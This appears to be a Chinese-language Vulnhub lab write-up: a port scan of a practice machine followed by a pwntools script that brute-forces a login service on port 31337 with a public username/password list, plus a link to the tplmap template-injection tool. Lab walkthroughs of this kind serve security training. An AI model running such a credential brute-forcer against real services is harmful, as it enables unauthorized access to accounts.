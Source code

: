 ## 0. 准备阶段
Vulnhub 上测试
```
目标IP:
192.168.84.131
```
## 1. 信息收集
```
PORT:
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
5000/tcp  open  upnp
31337/tcp open  Elite
```
## 2. 立足点获取
![[Pasted image 20240903192836.png]]

![[Pasted image 20240903193022.png]]

![[Pasted image 20240903193631.png]]

![[Pasted image 20240903193714.png]]

nc连接

![[Pasted image 20240903194108.png]]

```sh
#!/usr/bin/env python3

from pwn import *  # 导入 pwntools 库
import sys  # 导入系统模块

host, port = '$IP', 31337  # 设置目标服务器的 IP 地址和端口号，IP 修改

# 从指定的网址下载用户名和密码列表
# https://raw.githubusercontent.com/shipcod3/Piata-Common-Usernames-and-Passwords/master/userpass.txt

with open('userpass.txt') as f:  # 打开用户名密码文件
    data = f.readlines()  # 读取所有行

for creds in data:  # 遍历每一行数据
    (username, password) = creds.split(' ')  # 用空格分割用户名和密码
    username = username.strip()  # 清除用户名前后的空白字符
    password = password.strip()  # 清除密码前后的空白字符

    s = remote(host, port, level='error')  # 连接到服务器，只显示错误信息
    
    s.recvuntil('username> ')  # 接收直到出现 'username> ' 的提示
    s.sendline(username)  # 发送用户名
    s.recvuntil('password> ')  # 接收直到出现 'password> ' 的提示
    s.sendline(password)  # 发送密码

    msg = s.recvline()  # 读取一行响应信息
    if b'authentication failed' not in msg:  # 如果响应中不包含 'authentication failed'
        print("[+] 有效的凭据找到了: {}:{}".format(username, password))  # 打印找到的有效凭据
        sys.exit(0)  # 退出程序

    s.close()  # 关闭连接


https://github.com/epinna/tplmap //自动化脚本
```